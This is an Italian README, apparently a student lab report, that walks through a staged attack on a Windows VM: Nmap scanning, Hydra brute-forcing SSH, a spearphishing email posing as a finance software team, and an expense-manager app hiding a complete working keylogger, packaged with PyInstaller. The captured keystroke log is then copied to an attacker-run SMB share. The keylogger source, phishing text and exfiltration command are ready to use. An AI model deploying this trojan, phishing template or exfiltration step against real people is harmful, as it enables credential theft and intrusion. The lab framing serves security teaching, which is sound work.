


<br>


<br>

# **La Morsa del Cyber Crimine**: Esplorazione di un Attacco Multi-Fase, da Spearphishing a Furto di Dati

<br>

## **Introduzione**

---

### 1. Descrizione dell'attacco

In questa demo svolgerò il ruolo di attaccante. L'attacco che ho creato inizia con il presupposto di essere nella rete di una azienda e di conoscere l'indirizzo IP di un dispositivo aziendale per me interessante. Successivamente, lancerò un attacco di spearphishing, seguito dall'iniezione di un keylogger (con l'aiuto del bersaglio), sottoforma di software lecito (chiamato poi manager spesa). Il keylogger mi permetterà di conoscere tutto quello che il bersaglio digiterà.

Il bersaglio avrà il nome di Alessandro, personaggio da me inventato. Suppongo che sia in possesso di un account di un qualsiasi social media da cui posso raccogliere informazioni relative alla sua vita e al suo lavoro.

### 2. Strumenti utilizzati

Io opero da Kali Linux [[12]](https://www.kali.org/get-kali/#kali-virtual-machines) (su Virtual Box [[11]](https://www.virtualbox.org/)) e Windows 11 (SO nativo del mio dispositivo), mentre il bersaglio opera su Windows 10 Home [[13]](https://www.microsoft.com/it-it/software-download/windows10) (su Virtual Box [[11]](https://www.virtualbox.org/)).

Da Kali:

+ Uso il tool Nmap [[1]](https://nmap.org/) per investigare sull’indirizzo IP;
+ Uso il tool Hydra [[2]](https://github.com/vanhauser-thc/thc-hydra) per cercare username e password del servizio SSH;
+ Sfrutto il protocollo SMB per estrarre i file utilizzando lo strumento impacket [[7]](https://www.kali.org/tools/impacket-scripts/) per creare la connessione. Per questa fase ho preso spunto dal sito Juggernaut-sec.com [[3]](https://juggernaut-sec.com/windows-file-transfers-for-hackers/#Transferring_Files_to_and_from_Attackers_SMB_Server).

Da Windows 11: ho programmato l'interfaccia utente del manager di spesa usando la libreria Tkinter di Python [[5]](https://www.programmareinpython.it/interfacce-grafiche-python-con-tkinter/1-introduzione-alle-gui-con-tkinter/), in seguito ho iniziato a sviluppare il keylogger partendo da un codice base di un esempio visto su YouTube [[4]](https://www.youtube.com/watch?v=kQFl-MVrvwc&t=211s), che ho poi migliorato con l'aiuto di BlackBox AI [[10]](https://www.blackbox.ai/); l'arricchimento del codice relativo al keylogger riguarda:

+ La configurazione del percorso per salvare il file log.txt;
+ L'aggiunta di una separazione più chiara tra la pressione e il rilascio dei tasti;
+ L'inserimento della data e dell'ora.

Successivamete ho riunito entrambi due programmi in un singolo script.

Infine ho salvato il file da in .pyw e l'ho convertito in .exe con la libreria Pyinstaller [[6]](https://pyinstaller.org/en/stable/) di Python, personalizzando anche l'icona dell'eseguibile (segue la spegazione).

#### Note sulla creazione dell'eseguibile

Affinche l'applicazione fosse compatibile con il sistema Windows 10, ho dovuto usare la libreria pyinstaller su un disposito con sistema operativo Windows e ho scelto windows 11. Il motivo è che pyinstaller non supporta la creazione di eseguibili Windows da un altro sistema operativo. Quando viene creato l'eseguibile, la libreria pyinstaller, include anche i file dipendenti dal sistema operativo, come DLL su Windows.

### 3. Configurazione Windows 10 Home

Windows 10 ha richiesto delle configurazioni particolari prima di essere utilizzato, che sono:

+ La disattivazione del firewall e della scansione in tempo reale;
+ Alcune modifiche riguardo i privilegi dell'utente: utilizzando l'utility di Windows di nome secpol.msc accedibile attraverso prompt dei comandi come amministratore e modificando la sezione riguardante "Criteri Locali"->"Assegnazioni Diritti Utente";
+ L'attivazione dei Servizi SSH e SMB, fatta tramite "Impostazioni"->"Funzionalità Facoltative".
+ Per permettere a Windows 10 di rispondere ai ping e consentire la scansione con Nmap da un altro computer c'è stato bisogno di modificare le impostazioni riguardo le connessioni in entrata accedendo a Windows Defender Firewall e aggiungendo le regole riguardanti ICMP Echo Request e TCP/UDP.

### 4. Note sulla demo

La demo non comprende le modifiche delle configurazioni relative ai sistemi operativi. Il video presenta alcuni tagli e velocizzazioni a causa della lentezza della macchina virtuale con il SO Windows 10 Home, fa fede l'orologio dei SO che, sono stati sincronizzati tra loro.

### 5. Note di utilizzo per il keylogger

Il keylogger può essere modificato affinchè si attivi all'avvio di Windows modificando le chiavi del registro in modo da loggare anche la password dell'utente al momento effettivo del login sul device. La modifica può essere effettuata aggiungendo [questa parte di codice](Mod_chiavi_registro.md) al codice inserito in questo report.

<br>

## **Fase 0: Enumeration**

---

Sono interessata a un'azienda del settore finanziario, sono sulla stessa rete e conosco l'indirizzo IP 10.0.2.4 di un dispositivo aziendale. A questo punto procedo con la scansione di 10.0.2.4 utilizzando Nmap con l'opzione -sV (Nmap tenta di identificare quali servizi sono attivi sulle porte e quali versioni specifiche di quei servizi sono in uso):


L'output rivela che l'azienda ha configurato una device Windows in cui sono attivi i servizi SSH sulla porta 22 e SMB sulla porta 445.

<br>

## **Fase 1: Valid Account**

---

Dopo aver identificato i servizi SSH e SMB attivi sul dispositivo, procedo con l'utilizzo di Hydra per effettuare un attacco di forza bruta contro il servizio SSH all'indirizzo IP 10.0.2.4 e ottenere accesso ai sistemi. Uso le opzioni -L e -P per specificare rispettivamente due dizionari, che mi sono costruita precedentemente, di nomi utenti User e di password Password per trovare le credenziali del servizio SSH.


Scopro l'uso di credenziali predefinite da parte dell'amministratore, e procedo con l'autenticazione a SSH.


Ottengo l'accesso alla shell nel dispositivo dell'azienda e, con il comando whoami, verifica l'identità della shell (che è quella dell'amministratore).

Navigo tra i file e scopro la presenza di un altro utente: Alessandro.
Nella sua cartella Documents, trovo un file di nome "Biglietto da visita.txt", lo apro e trovo le informazioni di contatto di Alessandro come il nome completo e la mail.



Faccio una ricerca sui social media e scopro che Alessandro è un grande appassionato della finanza e all'interno della azienda è il responsabile della gestione dei conti bancari.

<br> 

## **Fase 2: Programmazione del keylogger, Spearphishing e Iniezione di un Keylogger**

---

### 1. Programmazione del Keylogger e dell'interfaccia grafica del gestore

Ho programmato il "Gestore di spesa" con Python e nel codice sorgente ho inserito il keylogger; la programmazione l'ho effettuata su Visual Code Studio [[8]](https://code.visualstudio.com/).
Ho utilizzato la libreria Tkinter di Python per la creazione dell'interfaccia grafica relativa allo script. Per come è strutturata l'applicazione, alla chiusura della finestra, il Keylogger si attiva, registra tutti i tasti premuti da Alessandro e li salva in un file di nome "log.txt" nella cartella "C:\Windows\Temp" da me scelta. La scelta della cartella è stata arbitraria, potevo scegliere qualsiasi altro percorso. Il codice sottostante rappresenta l'applicazione completa e funzionante del "Gestore di spesa", la parte finale del codice rappresenta solo il keylogger (preceduta da un commento per chiarezza):

```python

from datetime import datetime, date
import tkinter as tk
from tkinter import ttk
import pynput # type: ignore
from pynput.keyboard import Key, Listener # type: ignore
import os


def add_transaction():
    amount = float(entry_amount.get())
    description = entry_description.get()
    category = "Uscite" if var_category.get() == 0 else "Entrate"
    transactions.append((date.today(), amount, description, category))
    update_table()
    clear_entry()

def update_table():
    tree.delete(*tree.get_children())
    for transaction in transactions:
        tree.insert("", "end", values=transaction)

def clear_entry():
    entry_amount.delete(0, "end")
    entry_description.delete(0, "end")
    var_category.set(0)


window = tk.Tk()
window.title("Manager Spese")
window.grid_rowconfigure(0, weight=1)
window.grid_columnconfigure(0, weight=1)

# Sezione dei bottoni e degli spazi per l'inserimento dei caratteri
label_amount = tk.Label(window, text="Ammontare:")
label_amount.grid(row=0, column=0, padx=(10, 2), pady=5)
entry_amount = tk.Entry(window)
entry_amount.grid(row=0, column=1, padx=(2, 10), pady=5)

label_description = tk.Label(window, text="Descrizione:")
label_description.grid(row=1, column=0, padx=(10, 2), pady=5)
entry_description = tk.Entry(window)
entry_description.grid(row=1, column=1, padx=(2, 10), pady=5)

var_category = tk.IntVar()
radio_expense = tk.Radiobutton(window, text="Uscite", variable=var_category, value=0)
radio_expense.grid(row=2, column=0, padx=(10, 2), pady=5)
radio_income = tk.Radiobutton(window, text="Entrate", variable=var_category, value=1)
radio_income.grid(row=2, column=1, padx=(2, 10), pady=5)

button_add = tk.Button(window, text="Aggiungi Transazione", command=add_transaction)
button_add.grid(row=4, column=0, columnspan=2, pady=10)

# Sezione di visualizzazione tabellare all'interno della applicazione
tree = tk.ttk.Treeview(window, columns=("data", "ammontare", "descrizione", "categoria"))
tree.heading("#0", text="Date")
tree.heading("ammontare", text="Ammontare")
tree.heading("descrizione", text="Descrizione")
tree.heading("categoria", text="Categoria")
tree.grid(row=5, column=0, columnspan=2, padx=10, pady=10, sticky="nsew")

transactions = []
update_table()

window.mainloop()

# INIZIO DEL KEY LOGGER
class KeyLogger: 

    # Scelta della directory e del nome del file

    def __init__(self, log_directory=r"C:\windows\temp", log_file_name="log.txt"):
        self.log_directory = log_directory or os.path.join(os.path.expanduser("~"), "logs")
        self.log_file_name = log_file_name
        self.log_file_path = os.path.join(self.log_directory, self.log_file_name)

        # Crea la directory dei log se non esiste
        os.makedirs(self.log_directory, exist_ok=True)

    def log(self, message):
        with open(self.log_file_path, "a") as f:
            f.write(message)

    def on_press(self, key):
        try:
            char = key.char
        except AttributeError:
            char = str(key)
        # Aggiunta del giorno e dell'ora della pressione del tasto
        timestamp = datetime.now().strftime('%Y-%m-%d %H:%M:%S')
        log_message = f"{timestamp} - Pressed: {char}\n"
        self.log(log_message)
        print(log_message, end='')

    def on_release(self, key):
        # Aggiunta del giorno e dell'ora del rilascio del tasto
        timestamp = datetime.now().strftime('%Y-%m-%d %H:%M:%S')
        log_message = f"{timestamp} - Released: {key}\n"
        self.log(log_message)
        print(log_message, end='')
        
        # Opzionale: Ferma il keylogger al rilascio del tasto esc. Questa opzione è stata inserita in fase di test per fermarne l'esecuzione
        if key == 'Key.esc':
            return False

    def start(self):
        with Listener(on_press=self.on_press, on_release=self.on_release) as listener:
            listener.join()

if __name__ == "__main__":
    keylogger = KeyLogger()
    keylogger.start()

```

Ho salvato lo script in formato .pyw perchè questa estensione permette di eseguire il programma senza aprire una finestra di console separata. Alla fine della programmazione trasformo lo script da .py a .exe sfruttando la libreria pyinstaller (per specifiche vedi note precedenti per la creazione del .exe); essa prende lo script in Python e genera un singolo file eseguibile che contiene tutte le dipendenze necessarie rendendo possibile l'esecuzione del programma su computer con Python non installato. Ho scelto una immagine a mio piacimento (con nome Icona.jpg) e l'ho convertita in .ico (attraverso un sito web [[9]](https://convertio.co/it/)), dopo aver caricato la libreria pyinstaller sul sistema, eseguo il seguente comando:

```shell
pyinstaller --onefile --icon=Icona.ico Gestore_di_spesa.py
```

Questo comando creerà nella directory che ho scelto il file Gestore_di_spesa.exe con l'immagine Icona.ico da me scelta. Successivamente ho cambiato il nome dell'eseguibile in "Manager Spesa".

L'eseguibile lo invio poi via e-mail come link attraverso Drive (a causa della grandezza del file) con il corpo del testo citato prima.

### 2. Invio mail personalizzata

Utilizzo le informazioni raccolte su Alessandro, per creare un'e-mail personalizzata. L'e-mail finge di provenire da una rinomata azienda del settore finanziario che propone di testare in esclusiva una nuova applicazione di gestione della spesa. Il sottostante è il testo della mail che ho scritto:

<br>

<blockquote>
Da: teamgestorespese@gmail.com

A: <Alessandro.finanzaviva@gmail.com>

Oggetto: Partecipazione Esclusiva al Test del Nuovo Software di Gestione delle Spese

Ciao Alessandro,

Spero che tu stia bene! Siamo entusiasti di annunciarti che sei stato scelto per partecipare in esclusiva al test del nostro nuovo software per la Gestione Personale delle Spese.

Abbiamo notato il tuo interesse e la tua competenza nel campo finanziario e crediamo che il tuo feedback possa essere estremamente prezioso per noi mentre continuiamo a perfezionare e migliorare il nostro prodotto.

Il nostro team ha fatto un duro lavoro per sviluppare uno strumento intuitivo e potente che semplifichi la gestione delle spese personali, offrendo funzionalità avanzate e una user experience impeccabile.

Vorremmo invitarti a provare il software in anteprima e condividere con noi le tue opinioni, suggerimenti e eventuali problemi che potresti riscontrare durante l'utilizzo. Il tuo contributo sarà fondamentale per aiutarci a rendere il software il migliore possibile prima del lancio ufficiale.

Ti inviamo il link al software per iniziare il test. Se hai domande o hai bisogno di assistenza, non esitare a contattarci. Non vediamo l'ora di lavorare con te e di rendere questo software un successo insieme!

Cordiali saluti,

Il Team di Gestore di Spesa

</blockquote>

Alessandro accede alla sua casella di posta, e legge la e-mail proviente dal team di Gestore Spese. Interessato all'opportunità decide di fare il download dell'allegato, il file si presenta con il nome di "Manager spesa.exe" che è il file malevolo creato da me (l'attaccante).

### 3. Funzionamento del Software Malevolo

Alessandro scarica e avvia il programma "Manager spesa.exe". Il programma si presenta come una legittima applicazione di gestione delle spese, consentendo all'utente di inserire e monitorare entrate e uscite.



Tuttavia, al momento della chiusura dell'applicazione, il keylogger nascosto si attiva e inizia a registrare qualsiasi tasto premuto dall'utente.

### 4. Raccolta dei Dati

Dopo aver chiuso il programma, il keylogger inizia a catturare tutte le informazioni digitate da Alessandro, inclusi:

+ Nomi utente e password in chiaro e nascosti.
+ Dati personali e finanziari inseriti nei siti web.
+ Comunicazioni via email e chat.

<br>

## **Fase 3: Estrazione Dati tramite SMB**

---

Trascorso un periodo di tempo ragionevole in cui l'utente utilizza il suo computer, sfrutto il protocollo SMB per estrarre il file "log.txt" contenente le sequenze di tasti catturate.

### 1. Configurazione del Server SMB

Ho configurato il server SMB utilizzando lo strumento impacket-smbserver per creare una condivisione di rete, tra il dispositivo del bersaglio e il mio. Il comando seguente avvia il server SMB sul mio computer:


Questo comando crea una condivisione SMB denominata hax nella directory da me scelta nella quale posso spostare i file della vittima.

### 2. Navigazione sulla Macchina della Vittima

Attraverso il protocollo SSH (scoperto precedentenente attivo sul dispositivo bersaglio con le relative credenziali valide), verifico la posizione del file "log.txt" generato dal keylogger. Il file è collocato nella directory "C:\Windows\temp" per costruzione del keylogger.


### 3. Copia del File log.txt tramite SMB

Utilizzo il comando copy di Windows per copiare il file "log.txt" dalla macchina bersaglio alla condivisione SMB sul mio dispositivo. Di seguito il comando eseguito sulla macchina del bersaglio:

```cmd
copy C:\Windows\temp\log.txt \\10.0.2.15\hax\log.txt
```


Dove 10.0.2.15 è l'indirizzo IP del mio dispositivo.

Posso verificare che lo spostamento del file è avvenuto nel terminale che ha usato per creare la condivisione SMB:


Esempio del file "log.txt" ottenuto:


<br>

## **Conclusioni**

---

Gli eventi chiave dell'attacco sono:

+ l'assenza di regolamentazione dei privilegi dell'utente;
+ l'assenza di limitazione all'accesso dei servizi SMB e SSH;
+ l'uso di credenziali predefinite da parte dell'amministratore;
+ l'aiuto da parte dell'utente è stato necessario per eseguire il programma malevolo.

</div>

<br>

## **Riferimenti**

---

1. Nmap:
    + Nmap Official Website: <https://nmap.org/>

2. Hydra:
    + van Hauser, "Hydra - A very fast network logon cracker," THC, 2023. Disponibile: <https://github.com/vanhauser-thc/thc-hydra>

3. Trasferimento di file da e verso il server SMB dell'utente malintenzionato:
    + <https://juggernaut-sec.com/windows-file-transfers-for-hackers/#Transferring_Files_to_and_from_Attackers_SMB_Server>

4. File preso come esempio per la programmazione del keylogger:
    + <https://www.youtube.com/watch?v=kQFl-MVrvwc&t=211s>

5. Costruzione di gestore di spesa.exe con la libreria tkinter di python:
    + <https://www.programmareinpython.it/interfacce-grafiche-python-con-tkinter/1-introduzione-alle-gui-con-tkinter/>

6. Creazione dell'eseguibile con la libreria pyinstaller:
    + <https://pyinstaller.org/en/stable/>

7. Impacket scripts:

    + <https://www.kali.org/tools/impacket-scripts/>

8. Visula Studio Code:

    + <https://code.visualstudio.com/>

9. Sito per trasforma una immagine in .ico:

    + <https://convertio.co/it/>

10. BlackBox AI:
    + <https://www.blackbox.ai/>

11. Virtual Box:
    + <https://www.virtualbox.org/>

12. Kali Linux versione virtual machine:
    + <https://www.kali.org/get-kali/#kali-virtual-machines>

13. Windows 10 Home:
    + <https://www.microsoft.com/it-it/software-download/windows10>
